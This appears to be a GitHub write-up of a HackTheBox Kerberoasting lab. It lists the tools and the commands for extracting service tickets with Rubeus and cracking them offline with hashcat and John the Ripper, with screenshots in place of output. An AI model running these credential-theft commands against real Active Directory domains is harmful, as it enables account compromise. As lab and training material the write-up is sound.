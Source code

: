 # HackTheBox - Kerberoasting Lab

## Objective

Perform a Kerberoasting attack on ???, find the user account 'svc-iam' then crack password.
Connect to DC1 and investigate Event Manager to find the attack 

## Skills Learned
- Run a Kerberoasting attack
- 

## Tools Used
- Windows Event Log
- John The Ripper
- Hashcat
- Rubeus
- Powershell
- Kali Linux
- 
## Steps

First we need to RDP to the windows machine

```
xfreerdp /u:(username) /p:(password) /v:(Machine IP) /dynamic-resolution
```


Next we run Rubeus with the kerberoast action without specifying a user, it will extract tickets for every user that has an SPN registered

```
.\Rubeus.exe kerberoast /outfile:spn.txt
```

![image](https://github.com/Matt4llan/HackTheBox-Kerberoasting/assets/156334555/2fa6d522-6b9e-42c0-bd6d-117eb65ef4c1)


Now time to get cracking!! we need to move this file over to Kali to crack the password. I will use both Hashcat and John the ripper just for funzies.

### Hashcat

```
hashcat -m 13100 -a 0 spn.txt /usr/share/wordlists/rockyou.txt
```

![image](https://github.com/Matt4llan/HackTheBox-Kerberoasting/assets/156334555/e3079a53-f861-48d5-b76e-e24c2b76edae)
![image](https://github.com/Matt4llan/HackTheBox-Kerberoasting/assets/156334555/b442e61d-45e8-4bbe-a6ce-564923fe32d5)


### John The ripper

```
sudo john spn.txt --fork=4 --format=krb5tgs --wordlist=/usr/share/wordlists/rockyou.txt --pot=results.pot
```

![image](https://github.com/Matt4llan/HackTheBox-Kerberoasting/assets/156334555/a11d021f-4190-43cd-91aa-b85a2af71b46)
